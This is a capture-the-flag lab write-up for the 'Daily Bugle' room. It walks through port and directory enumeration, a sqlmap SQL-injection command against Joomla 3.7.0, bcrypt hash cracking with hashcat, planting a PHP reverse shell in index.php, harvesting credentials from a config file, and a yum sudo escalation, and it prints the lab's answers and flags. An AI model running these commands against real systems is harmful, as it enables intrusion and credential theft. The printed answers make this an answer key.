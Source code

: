 # Daily Bugle

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

## Task 1  Deploy

###  - Access the web server, who robbed the bank?

Before getting started, I like to start by enumerating ports.

`nmap -sC -sV -Pn -oN nmap/inital 10.10.82.106`

Next we can enumerate directories on webserver.

`gobuster -u http://10.10.160.160/ -w /opt/KaliLists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt`

Answer: `spiderman`

## Task 2  Obtain user and root

###  - What is the Joomla version?

https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website

`http://10.10.160.160/administrator/manifests/files/joomla.xml`

Answer: `3.7.0`

###  - *Instead of using SQLMap, why not use a python script!*What is Jonah's cracked password?

https://www.exploit-db.com/exploits/42033

`sqlmap -u "http://10.10.160.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`

`python3 joomblah.py http://10.10.160.160/`

`hashcat -a 0 -m 3200 -o PASSWORD.txt hash.txt /opt/KaliLists/rockyou.txt --force`

Answer: `spiderman123`

###  - What is the user flag?

Edited the index.php to gain a reverse shell.

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

Read the configurations.php file in www/html/ to find creds for jjameson.

`27a260fe3cba712cfdedb1c86d80442e`

###  - What is the root flag?

Using sudo -l we can see what jjameson can access.

https://gtfobins.github.io/gtfobins/yum/

`eec3d53292b1821868266858d7fa6f79`
